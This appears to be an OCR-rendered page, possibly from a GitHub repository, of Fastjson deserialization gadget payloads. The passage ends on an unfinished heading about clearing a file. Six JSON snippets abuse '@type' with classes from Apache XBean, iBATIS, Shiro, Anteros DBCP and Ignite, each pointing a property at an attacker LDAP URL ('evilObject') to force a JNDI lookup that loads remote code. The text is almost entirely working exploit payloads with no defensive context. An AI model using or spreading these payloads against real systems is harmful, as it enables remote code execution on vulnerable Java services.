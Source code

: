  - JndiConverter

```java
{
	"@type": "org.apache.xbean.propertyeditor.JndiConverter",
	"AsText": "ldap://127.0.0.1:8888/evilObject"
}
```

 - JtaTransactionConfig

```java
{
	"@type": "com.ibatis.sqlmap.engine.transaction.jta.JtaTransac
tionConfig",
	"properties": {
		"@type": "java.util.Properties",
		"UserTransaction": "ldap://127.0.0.1:8888/evilObject"
	}
}
```

 - JndiObjectFactory

```java
{
	"@type": "org.apache.shiro.jndi.JndiObjectFactory",
	"resourceName": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AnterosDBCPConfig

```java
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AnterosDBCPConfig2

```java
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - CacheJndiTmLookup

```java
{
	"@type": "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
	"jndiNames": "ldap://127.0.0.1:8888/evilObject"
}
```

 - AutoCloseable Clear the specified file
